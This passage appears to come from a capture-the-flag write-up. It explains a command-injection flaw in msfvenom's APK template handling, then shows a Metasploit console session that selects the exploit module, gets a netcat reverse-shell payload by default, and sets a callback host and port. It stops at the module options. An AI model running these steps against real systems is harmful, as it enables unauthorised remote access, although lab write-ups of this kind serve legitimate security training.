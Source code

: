 I actually worked with ExploitDB to get them to add this vulnerability
to their database so that it would show up for this box. The
vulnerability is a command injection in the way that `msfvenom` handles
an APK template file. The idea of the template file is that you can pass
`msfvenom` a legit `.exe` or `.apk`, and it will try to build a
malicious file into that file while preserving the intended capability.
This functionality allows for attackers to hide behind the legit
functionality.

### Build Payload

There's also a metasploit exploit for this vulnerability which I found
more reliable than the Python script:



    oxdf@parrot$ msfconsole
    ...[snip]...
    msf6 > search msfvenom

    Matching Modules
    ================

       #  Name                                                                    Disclosure Date  Rank       Check  Description
       -  ----                                                                    ---------------  ----       -----  -----------
       0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection

    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >



The default options work, so I'll just set my host and port:



    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.15
    LHOST => 10.10.14.15
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 443
    LPORT => 443
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

    Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  msf.apk          yes       The APK file name
